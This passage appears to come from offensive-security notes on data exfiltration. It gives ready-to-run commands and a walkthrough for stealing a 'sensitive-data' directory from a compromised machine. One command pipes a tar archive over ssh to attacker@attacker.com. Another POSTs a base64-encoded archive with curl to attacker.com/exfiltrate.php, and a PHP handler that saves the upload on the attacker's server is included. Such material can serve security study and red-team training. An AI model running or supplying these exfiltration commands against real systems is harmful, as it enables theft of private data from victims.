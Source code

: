 #### SSH

**Definition**

SSH protocol establishes a secure channel to interact and move data between the client and server, so all transmission data is encrypted over the network or the Internet.

**Method**

On the compromised machine

```
tar cf - sensitive-data/ | ssh attacker@attacker.com "cd /tmp/; tar xpf -"
```

1. We used the tar command to create an archive file of the sensitive-data directory.
2. Then we passed the archived file over the ssh. SSH clients provide a way to execute a single command without having a full session.
3. We passed the command that must be executed in double quotations, "cd /tmp/; tar xpf. In this case, we change the directory and unarchive the passed file.

If the ssh server on your attacker machine works correctly you will receive the data on your attacking machine.

#### HTTP and HTTPS

**Steps required using HTTP**

1. An attacker sets up a web server with a data handler. In our case, such as `attacker.com` and a data handler. Data handler could be any page such as  `exfiltrate.php` .
2. A C2 agent or an attacker sends the data. In our case, we will send data using the curl command.
3. The webserver receives the data and stores it. In our case, the contact.php receives the POST request and stores it into /tmp.
4. The attacker logs into the webserver to have a copy of the received data.

`exfiltrate.php` page contents can be like the below

```php
<?php 
if (isset($_POST['file'])) {
        $file = fopen("/tmp/data.bs64","w");
        fwrite($file, $_POST['file']);
        fclose($file);
   }
?>
```

After the setup of the webserver is done correctly on the `attacker` machine we jump to the `victim` machine and issue the below command

```
curl --data "file=$(tar zcf - sensitive-data | base64)" http://attacker.com/exfiltrate.php
```

We used the curl command with `--data` argument to send a POST request via the file parameter. Note that we created an archived file of the secret folder using the tar command. We also converted the output of the tar command into base64 representation.

Now the data should have been transported to the attacker machine where we need to login and decode the base64 data and recover the correct form of the data
